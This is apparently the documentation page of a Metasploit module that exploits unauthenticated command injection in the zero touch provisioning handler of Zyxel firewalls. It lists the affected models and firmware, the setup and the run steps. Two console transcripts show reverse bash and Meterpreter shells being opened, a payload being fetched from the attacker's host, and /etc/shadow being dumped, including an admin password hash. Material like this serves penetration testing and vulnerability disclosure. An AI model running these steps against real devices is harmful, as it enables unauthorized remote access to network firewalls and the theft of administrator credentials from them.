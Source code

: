 ## Vulnerable Application

### Description

This module exploits an unauthenticated and remote command injection
vulnerability affecting Zyxel firewalls with zero touch provisioning
(ZTP) support. This module exploits the command injection exposed by
the `/ztp/cgi-bin/handler` when handling setWanPortSt commands. The
module adds commands to the mtu field in order to achieve command
execution as `nobody`.

Affected Zyxel models are:

* USG FLEX 50, 50W, 100W, 200, 500, 700 using firmware 5.21 and below
* USG20-VPN, USG20W-VPN, USG2200-VPN using firmware 5.21 and below
* ATP 100, 200, 500, 700, 800 using firmware 5.21 and below

### Setup

The vulnerable system is a hardware firewall/vpn that, to our knowledge,
cannot be emulated. As such, testing requires a physical device. After
acquiring the device, Zyxel will require the system be registered and
updated (this will require registering an account at zyxel.com). Firmware
on the system, however, can be downgraded. Acquire a vulnerable firmware
version and downgrade (if needed). The system should be in a vulnerable
state as long as it's using a vulnerable firmware (affected versions
listed above).

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/http/zyxel_ztp_rce`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module acquires a root shell

## Options

## Scenarios

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse sh shell as nobody

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48153 ) at 2022-05-09 14:06:47 -0700
[+] Exploit successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /etc/shadow
root:***:12396:0:99999:7:::
bin:***:12396:0:99999:7:::
daemon:***:12396:0:99999:7:::
adm:***:12396:0:99999:7:::
lp:***:12396:0:99999:7:::
sync:***:12396:0:99999:7:::
shutdown:***:12396:0:99999:7:::
halt:***:12396:0:99999:7:::
mail:***:12396:0:99999:7:::
news:***:12396:0:99999:7:::
uucp:***:12396:0:99999:7:::
operator:***:12396:0:99999:7:::
games:***:12396:0:99999:7:::
ftp:***:12396:0:99999:7:::
sshd:***:12396:0:99999:7:::
nobody:***:12396:0:99999:7:::
debug:***:12396:0:99999:7:::
#deadbeaf  Don't remove this line
admin:$5$52TVVua8$64kGlcP7$tNKPUArLMHZtmYy84GwUviNYNwBmDkLQ+cKkP9ToPRZqbAA3tgyfRd58rutqhxl36xVWYYRs5GhzX9Hd3ID9PvH5/F7RH0jPRLlug3+TecNkofrbDf3XOan3L8ZeChhzudZgUkP9A4sXfm6dEXguZ2+nLj98gyh7W8dl2/g+h3giNWW9Qsp1JdvaC3wIV53nlZ4p8JEPbswfsJ+KNEsb8AHajPfE+MVT4iTT9OhxPQnwMYaVhyRfauJeUrLtDHDzZq+bvHfmTp4NxUWOjwbXlBa7D6dRD21U3KW9btQM3SMDMSiwZGX1bo5Bu09lWiyzEPPIsy3n7Jsw+W818cZQm7I4b/BMn5tmdkafJz3uCw4$:19121:0:99999::::
ldap-users:***:19121:0:99999::::
radius-users:***:19121:0:99999::::
ad-users:***:19121:0:99999::::
ua-users:***:19121:0:99999::::
cloud-users:***:19121:0:99999::::
```

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse Meterpreter shell as nobody

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > set target 1
target => 1
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Linux Dropper for linux/mips64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.28:8080/vFiLDBVYvqzd
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Client 10.0.0.14 (curl/7.70.0) requested /vFiLDBVYvqzd
[*] Sending payload to 10.0.0.14 (curl/7.70.0)
[*] Meterpreter session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48159 ) at 2022-05-09 14:11:29 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Server stopped.

meterpreter > shell
Process 25619 created.
Channel 1 created.
id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
cat /proc/cpuinfo
system type		: ROUTER7000_REF (CN7020p1.2-1200-AAP)
machine			: Unknown
processor		: 0
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 0
VCED exceptions		: not available
VCEI exceptions		: not available

processor		: 1
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 1
VCED exceptions		: not available
VCEI exceptions		: not available
```
